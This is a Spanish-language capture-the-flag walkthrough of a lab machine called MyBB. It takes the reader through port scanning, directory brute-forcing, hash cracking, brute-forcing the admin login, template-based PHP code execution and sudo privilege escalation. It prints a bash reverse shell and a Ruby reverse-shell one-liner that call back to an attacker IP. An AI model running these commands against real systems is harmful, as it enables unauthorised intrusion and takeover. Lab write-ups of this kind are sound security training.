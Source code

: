 # MÁQUINA MYBB

Lo primero que deberemos hacer será un escaneo de puertos, para ello usaremos el siguiente comando:

```shell
nmap -p- --open -sS -sC -sV -vvv --min-rate 5000 -Pn 172.17.0.2
```

Vemos que unicamente tiene abierto el puerto 80, así que introducimos la IP en nuestro navegador y vemos lo siguiente:

![NAV](https://github.com/Isma-yo/photos/blob/main/MyBB/foto.png)

Cuando vamos al apartado de foro, vemos que no nos carga pero sin embargo nos da un nombre de dominio (tener cuidado que se carga como HTTPS y no como HTTP):

![NAV2](https://github.com/Isma-yo/photos/blob/main/MyBB/foto2.png)

Este dominio será el que deberemos de añadir al fichero /etc/hosts:

![DOM](https://github.com/Isma-yo/photos/blob/main/MyBB/foto3.png)

Vemos que ahora si nos carga la página, la inspeccionamos pero no encontramos nada fuera de lo común, así que deberemos de empezar a listar directorios, para ello usaremos el comando gobuster:

```shell
gobuster dir -u http://panel.mybb.dl/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

Descubrimos que hay una carpeta con nombre “backups” por lo que procedemos a ver que hay dentro:

![INDEX](https://github.com/Isma-yo/photos/blob/main/MyBB/foto4.png)

Vemos que hay un archivo con nombre data que parece interesante, veamos que hay dentro:

![DIREC](https://github.com/Isma-yo/photos/blob/main/MyBB/foto5.png)

Encontramos un usuario alice y una contraseña la cuál parece estar hasheada. Para conocer la contraseña usaremos un ataque de fuerza bruta con la herramienta john y el diccionario rockyou.txt:

```shell
john -w=/usr/share/wordlists/rockyou.txt hash
```

![JOHN](https://github.com/Isma-yo/photos/blob/main/MyBB/foto6.png)

Sin embargo estas credenciales no nos permiten acceder al login, por lo que el siguiente paso será realizar una ataque de fuerza bruta contra la página de login usando el usuario admin que podemos ver que existe tanto en la propia web como en el fichero data que hemos encontrado.

Para el ataque primero interceptaremos la petición con BurpSuite y una vez ya tengamos los datos que necesitamos (usuario, contraseña y error) podemos ejecutar el ataque de fuerza bruta:

![BF](https://github.com/Isma-yo/photos/blob/main/MyBB/foto7.png)

Copiamos todo todo el contenido de la linea 16.

![HY](https://github.com/Isma-yo/photos/blob/main/MyBB/foto8.png)

Vemos que nos da muchas contraseñas como correctas, estas son falsos positivos. Para encontrar la contraseña correcta deberemos de ir probando una por una hasta encontrar la correcta, en esta caso la correcta es babygirl.

![MYBB](https://github.com/Isma-yo/photos/blob/main/MyBB/foto9.png)

Vemos que ya podemos acceder y que existe un apartado con nombre “Admin CP”:

![MYBB2](https://github.com/Isma-yo/photos/blob/main/MyBB/foto10.png)

Aquí podemos observar la versión de MyBB que estamos utilizando, ahora deberemos de investigar acerca de esta versión para ver que podemos encontrar.

Vemos que existe una vulnerabilidad que permite la inyección de código malicioso PHP a través de Templates, por lo que procederemos a explotarla a ver que conseguimos sacar:

https://blog.sorcery.ie/posts/mybb_acp_rce/

Tras seguir los pasos que se encuentran en la máquina vemos que si podemos ejecutar código malicioso:

![WWW](https://github.com/Isma-yo/photos/blob/main/MyBB/foto11.png)

Por lo que nos enviaremos una reverse shell:

```shell
'bash -c “bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261”'
```
![SH](https://github.com/Isma-yo/photos/blob/main/MyBB/foto12.png)

Una vez conectados tratamos la tty con los siguientes comandos:

```shell
script /dev/null -c bash
```

```shell
Control Z
```

```shell
stty raw -echo; fg
```

```shell
reset xterm
```

```shell
export TERM=xterm
```

```shell
export SHELL=bash 
```

No podemos ejecutar el comando sudo -l y con el comando find / -perm -4000 2>/dev/null no encontramos nada que podamos usar para la escalada de privilegios, así que intentamos convertimos en el usuario alice con la contraseña que obtuvimos de la página data y vemos que efectivamente podemos convertirnos en alice:

![AL](https://github.com/Isma-yo/photos/blob/main/MyBB/foto13.png)

Si ahora hacemos un sudo -l vemos que podemos ejecutar cualquier archivo que acabe en .rb dentro del directorio scripts, por lo que vamos a crear un script en nuestra máquina atacante que nos genere una reverse shell para poder conseguir esa escalada de privilegios que buscamos.

https://gtfobins.github.io/gtfobins/ruby/#reverse-shell

```shell
export RHOST=172.17.0.1
export RPORT=443
ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

Y ya somos root!
Una vez creado lo compartimos a la máquina víctima y le damos permiso de ejecución, lo ejecutamos con el usuario root mientras estamos en escucha desde nuestra máquina atacante y bingo, somos root.

![ROOT](https://github.com/Isma-yo/photos/blob/main/MyBB/foto14.png)


